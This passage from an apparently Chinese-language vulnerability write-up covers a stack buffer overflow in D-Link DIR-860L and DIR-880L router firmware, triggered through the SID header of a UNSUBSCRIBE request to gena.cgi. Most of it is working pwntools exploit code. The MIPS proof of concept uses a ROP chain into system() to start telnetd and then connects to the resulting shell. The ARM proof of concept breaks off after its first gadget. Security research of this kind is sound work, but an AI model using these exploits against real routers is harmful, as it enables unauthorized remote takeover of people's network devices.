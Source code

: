 **POC-3：**

发现 DIR-860L v2.03 竟然还存在这个漏洞，于是也打了一下，这里注入的是 HTTP_SID，又由于 uClibc 版本换了，所以 gadget 也有些变化：

```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aabf000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -p 8888;'
payload = b'a'*437
payload += b'a'*4 # s0
payload += p32(libc_base + 0x398A4) # s1  move $a0, $s4 ... jalr $fp
payload += p32(libc_base + 0x56C20) # fp  system
payload += p32(libc_base + 0x3B2B0) # ra  addiu $s4, $sp, 0x28 ... jalr $s1
payload += b'a'*0x28 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.0.1 8888")
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NdoCBSibR7BEHicc572DpCBxb9HepEk8xyuxp9lKaMhH9t5b8RgdWp2w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4OkupKfgyicYqjxYqjMlg2X2Ur7FTLnmWxgGVT347Q5U9ia0yM1pPWykA/640?wx_fmt=png)

**POC-4：**

发现 DIR-880L v1.0 虽然架构换成了 armel，但是这个漏洞仍然是存在的。

不过，FAP 对部分 arm 架构的固件的仿真运行有些问题，笔者也还不太会用 EMUX，没成功启动固件，目前又没有真机的测试条件，就先贴一下 POC（这里的 gadget 在本地的 qemu 测试过，是可以跑通的）：

2022.5.7 更新：FAP 项目作者已经修复了 D-LINK 系列高版本 arm 路由无法仿真模拟的问题，下面给出的是最终测试通过的 POC。

```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')
 
libc_base = 0xb6f7e000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -l /bin/sh;'
payload = b'a'*462
payload += b'a'*4 # r4
payload += b'a'*4 # r5
payload += b'a'*4 # r11
payload += p32(libc_base + 0x169a0) # pop {r2, r3, r4, pc};
```